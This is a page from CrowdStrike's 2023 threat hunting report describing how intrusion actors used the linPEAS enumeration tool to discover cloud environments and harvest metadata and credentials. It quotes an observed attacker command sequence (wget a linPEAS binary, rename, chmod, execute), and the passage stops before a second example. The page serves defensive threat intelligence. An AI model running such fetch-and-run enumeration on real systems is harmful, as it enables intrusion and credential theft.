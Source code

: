 INCREASE IN CLOUD 

EXPLOITATION IN 2022

3X

INCREASE IN CASES INVOLVING 

CLOUD\-CONSCIOUS THREAT ACTORS

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT32

ADVERSARIES LEVERAGE LINPEAS TOOL 
FOR CLOUD DISCOVERY

Falcon OverWatch detected several intrusions at the cloud workload level where 
adversaries gained access to a cloud server and used the Linux privilege escalation 
tool linPEAS to enumerate the environment. Although linPEAS has been around 
for several years, in the past year, Falcon OverWatch saw its use by eCrime and 
targeted intrusion adversaries triple. 

LinPEAS has a cloud module that attempts to determine in which cloud 
environment, if any, the module is running through a process of fingerprinting. 
This process inspects local files including /etc/hosts, /etc/resolv.conf and 
vendor\-specific configuration files, as well as HTTP requests using both curl and 
wget, to a well\-known cloud service provider’s API endpoints. The cloud module 
currently supports discovery of Google Cloud, DigitalOcean Droplet, IBM Cloud, 
and Amazon's Elastic Container Service (ECS), Elastic Compute Cloud (EC2\), 
EC2 Beanstalk and Lambda. If a cloud service provider is identified, the module will 
enumerate details of the identified cloud environment, which may include machine 
attributes such as the instance metadata (ID, name, region or zone, and image); 
network attributes (public and private IPs, hostnames); and various user, service 
and security credentials depending on cloud service provider and cloud security 
configuration. 

In one instance, Falcon OverWatch discovered an adversary downloading a pre\-
compiled version of the linPEAS tool. They renamed the file via mv, set execute 
permissions and attempted execution of the file:

wget https\[:]//github\[.]com/carlospolop/PEASS\-ng/releases/download/

\[REDACTED Path]/linpeas\_darwin\_arm64

mv linpeas\_darwin\_arm64 x

chmod \+x x

./x

Not all ingress of the linPEAS tool comes from the official GitHub repository 
— adversaries are also known to stage tooling to sources under their control. 
Reasons for this may include ready access to custom\-compiled versions to evade 
signature\-based detection, as well as avoiding source URLs that identify the tooling. 
In this second example, Falcon OverWatch observed the adversary attempting to 
download linPEAS from a common file\-sharing website after a previous attempt 
from the GitHub repository was prevented:
